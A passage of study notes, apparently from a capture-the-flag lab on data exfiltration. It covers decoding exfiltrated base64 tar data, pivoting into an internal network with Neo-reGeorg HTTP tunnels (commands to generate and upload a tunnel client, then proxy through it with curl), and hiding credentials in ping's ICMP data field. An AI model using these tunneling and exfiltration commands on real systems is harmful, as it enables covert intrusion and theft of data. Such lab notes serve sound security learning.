 ```bash
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
And we have our data decoded, and unarchived.

## HTTPS Communications
Now, instead of using the cleartext HTTP, we are going to take advantage of the encryption with SSL keys from HTTPS. If we apply the same technique that we used previously on a web server with SSL enabled, then we can see that all transmitted data will be encrypted.

## HTTP Tunneling
Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel.
Now, there are some cases where many internal computers are not reachable from the internet. In this case, we will create an HTTP tunnel communication channel to pivot into the internal network and communicate with local network devices through HTTP protocol.
For HTTP tunneling, we will use [neoreg](https://github.com/L-codes/Neo-reGeorg) to establish a communication channel to access the internal network devices. We will start by generating an encrypted client file to upload to the target's web server
```bash
python3 neoreg.py generate -k Password123
```
With this, we generate encrypted tunneling clients with the `thm` key in the `neoreg_servers/` directory. We just need to upload the corresponding file to a webserver, so we can use that server as a tunnel between it, and another that has no connection to the internet. 
Once the file is inside our tunnel server we use
```bash
python3 neoreg.py -k Password123 -u http://tunnel.server/files/tunnel.php
```
Here we connect to the client and provide the key to decrypt the tunneling client. Once the tunneling client is connected, we are ready to use the tunnel connection as a proxy bind on our local machine on port 1080. So if we would like to access 172.1.2.3 on port 80, we can use the `curl` command with `--socks5` argument. We can also use other proxy apps like, ProxyChains, FoxyProxy, etc.
```bash
curl --socks5 127.0.0.1:1080 http://172.1.2.3:80
```
# ICMP
The Internet Control Message Protocol (ICMP) is a network layer protocol used to handle error reporting. Network devices such as routers use ICMP protocol to check network connectivities between devices. The ICMP protocol is not a transport protocol to send data between devices. Let's say that two hosts need to test connectivity in the network, we can use the `ping` command to send ICMP packets through the network.
![[Pasted image 20240626153017.png]]
The `Host 1` sends an ICMP packet with and **echo-request** packet. Then if `Host 2` is available, it sends an ICMP packet back with an **echo reply** message confirming the availability.
## ICMP Data Section
On a high level, the ICMP packet structure contains a `Data` section that can include strings or copies of other information, such as the IPv4 header, used for error messages. This diagram shows the `Data` section, which is optional to use.
![[Pasted image 20240626153522.png]]
The Data field is optional and could either be empty or it could contain a random string during the communications. As an attacker, we can use the ICMP structure to include our data within the `Data` section and send it via ICMP packet to another machine. The other machine must capture the network traffic with the ICMP packets to receive the data.
To perform manual ICMP data exfiltration, we will be using that optional data section to transfer all the data we need. 
In **linux** `ping` has an argument `-p` where we can specify 16 bytes of data en hex representation to send through the packet. If we wanted to exfiltrate the following credentials `admin:password123` we first need to convert it into hex.